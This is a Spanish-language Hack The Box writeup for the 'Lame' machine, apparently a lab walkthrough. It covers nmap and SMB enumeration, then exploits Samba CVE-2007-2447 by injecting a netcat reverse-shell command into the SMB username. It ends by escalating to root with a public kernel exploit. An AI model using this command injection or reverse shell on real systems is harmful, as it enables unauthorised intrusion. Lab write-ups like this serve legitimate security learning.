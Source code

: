 # Hack The Box – Lame Writeup (Manual Exploit)

## Información
- **Nombre:** Lame  
- **Plataforma:** Hack The Box  
- **Dificultad:** Fácil  
- **Dirección IP:** `10.129.215.18`

---

## 1. Reconocimiento

Se realiza un escaneo completo con Nmap para detectar puertos y versiones de servicios:

```bash
nmap -sCV -p- --min-rate 5000 --open -sS 10.129.215.18 -oN escaneo.txt
```

**Resultados relevantes:**
```
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian
139/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian
3632/tcp open  distccd     distccd v1
```

---

## 2. Enumeración de SMB

Se listan los recursos compartidos (shares) de SMB con acceso anónimo:

```bash
smbclient -L //10.129.215.18/ -N
```

**Resultado:**
```
Sharename  Type   Comment
---------  ----   -------
print$     Disk   Printer Drivers
tmp        Disk   oh noes!
opt        Disk
IPC$       IPC    IPC Service (lame server)
ADMIN$     IPC    IPC Service (lame server)
```

Se comprueba acceso al share `tmp`:
```bash
smbclient //10.129.215.18/tmp -N
```
Permite escritura de archivos, pero no hay ejecución automática.

---

## 3. Identificación de vulnerabilidad

La versión de Samba **3.0.20-Debian** es vulnerable a **CVE-2007-2447** (*username map script RCE*).  
Esta falla permite inyectar comandos a través del parámetro usuario en la autenticación SMB.

---

## 4. Explotación manual de CVE-2007-2447

### 4.1 Preparar listener
En el atacante:
```bash
nc -lvnp 4444
```

### 4.2 Conectar a SMB y ejecutar payload
```bash
smbclient //10.129.215.18/tmp -N
logon "/=`nohup nc -e /bin/bash 10.10.14.248 4444`"
```
> Reemplazar `10.10.14.248` por la IP tun0 del atacante.

### 4.3 Resultado
Se recibe una **reverse shell** como usuario `nobody`:
```bash
whoami
nobody
```

---

## 5. Escalada de privilegios

### 5.1 Enumeración local
Buscar binarios con SUID:
```bash
find / -perm -4000 2>/dev/null
```

### 5.2 Uso de exploit local
En sistemas antiguos como el de Lame, existen exploits públicos que permiten escalar a root.  
Ejemplo: [exploit Linux Kernel 2.6.x](https://www.exploit-db.com/exploits/9542)

Transferir el exploit y ejecutarlo:
```bash
gcc exploit.c -o exploit
./exploit
```

### 5.3 Verificación
```bash
whoami
root
```

---

## 6. Acceso a información del sistema
Listar usuarios:
```bash
cat /etc/passwd | grep '/home'
```
Ver directorios personales:
```bash
ls /home
```

---

## 7. Notas finales
- Vector principal: **CVE-2007-2447 (Samba username map script RCE)**.  
- Acceso inicial: `nobody` → escalada a `root` mediante exploit local.  
- Alternativas no utilizadas pero presentes: FTP anónimo, distccd.

